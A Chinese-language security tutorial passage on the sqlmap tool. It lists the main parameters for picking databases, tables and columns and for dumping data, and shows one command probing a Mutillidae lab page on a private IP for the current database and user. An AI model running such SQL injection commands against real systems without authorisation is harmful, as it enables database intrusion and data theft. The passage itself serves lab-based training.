 ##### 1.6 使用sqlmap工具

选择测试页面

![image-20220418163129030](/img/security/image-20220418163129030.png)

1.了解sqlmap基本参数

```
-u 指定目标url
-p 指定注入的字段
-D 选择使用哪个数据库
-T 选择使用哪个表
--dump 获取字段中的数据
--current-user   查询目标DBMS当前用户
--current-db     查询目标DBMS当前数据库
--tables      枚举DBMS数据库中所有的表
--columns     枚举DBMS数据库表中所有的列
```

2.探测当前数据库

`sqlmap -u "http://192.168.52.131/mutillidae/index.php?page=user-info.php&username=admin&password=admin&user-info-php-submit-button=View+Account+Details"  -p "username" --current-db --current-user`
